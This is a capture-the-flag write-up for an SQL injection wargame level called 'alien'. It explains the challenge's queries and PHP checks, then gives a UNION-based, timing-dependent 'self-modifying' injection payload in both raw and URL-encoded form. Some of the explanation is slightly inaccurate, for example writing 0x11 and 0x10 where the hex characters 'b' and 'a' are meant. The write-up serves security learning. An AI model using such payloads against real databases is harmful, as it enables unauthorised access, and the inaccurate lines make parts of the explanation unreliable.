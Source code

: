 ```yaml
---
custom_edit_url: null
sidebar_position: 32
tags: [SQLi, Self-modification]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/d4c56057-01fa-4f0c-8360-441f987427c3)

We are provided with the SQL queries:

```sql
SELECT id FROM prob_alien WHERE no={$_GET[no]}
```

```sql
SELECT id FROM prob_alien WHERE no='{$_GET[no]}'
```

In order to solve this challenge, we have to pass the following checks:

```php
$r = mysqli_fetch_array(mysqli_query($db,$query));
if($r['id'] !== "admin") exit("sandbox1");
$r = mysqli_fetch_array(mysqli_query($db,$query));
if($r['id'] === "admin") exit("sandbox2");
$r = mysqli_fetch_array(mysqli_query($db,$query2));
if($r['id'] === "admin") exit("sandbox");
$r = mysqli_fetch_array(mysqli_query($db,$query2));   if($r['id'] === "admin") solve("alien");
```

- The first query checks if the fetched `id` is not `"admin"`. If true, it exits.
- The second query checks if the fetched `id` is `"admin"`. If true, it exits.
- The third query checks if the fetched `id` is `"admin"`. If true, it exits.
- The fourth query checks if the fetched `id` is `"admin"`. If true, it calls a function `solve("alien")`.

In order to solve this challenge, we need to create a self-modifying query.


## Self-modifying query

```sql
1 UNION SELECT concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)%23' UNION SELECT concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)%23
```

- **`(!sleep(1) && now() % 2 == 1)`**:
	- `!sleep(1)` effectively becomes `False` or `0` since after 1 second, the `sleep` function returns. Otherwise it is `True` or `1`.
	- `now() % 2 == 1` checks if the current time in seconds is an odd number.
	- Combine these using the `&&` (logical AND), which evaluates to `False` or `0` if `!sleep(1)` is `0`. Otherwise it results in `True` or `1`.
- **`hex(10+(!sleep(1)&&now()%2=1))`**:
	- If result of `sleep` is `1`, `hex(10+1)` results in `b`.
	- If result of `sleep` is `0`, `hex(10+0)` results in `a`.
- **`lower(hex(10+(!sleep(1)&&now()%2=1)))`**:
	- Converts the entire string to lowercase.
- **`concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)`**
	- Concatenates the string to `dmin`.
	- If result of `sleep` is `1`, `concat(0x11,0x646d696e)` results in `bdmin`.
	- If result of `sleep` is `0`, `concat(0x10,0x646d696e)` results in `admin`.

&nbsp;

If we provide the following URI parameter:

```
?no=1%20UNION%20SELECT%20concat(lower(hex(10%2b(!sleep(1)%26%26now()%2=1))),%200x646d696e)%23%27%20UNION%20SELECT%20concat(lower(hex(9%2b(!sleep(1)%26%26now()%2=1))),%200x646d696e)%23%20
```

The resultant first query becomes:

```sql
SELECT id FROM prob_alien WHERE no=1 UNION SELECT concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)#' UNION SELECT concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)%23
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/ae221b2c-088e-40c2-9bf4-72d563eb8e9c)
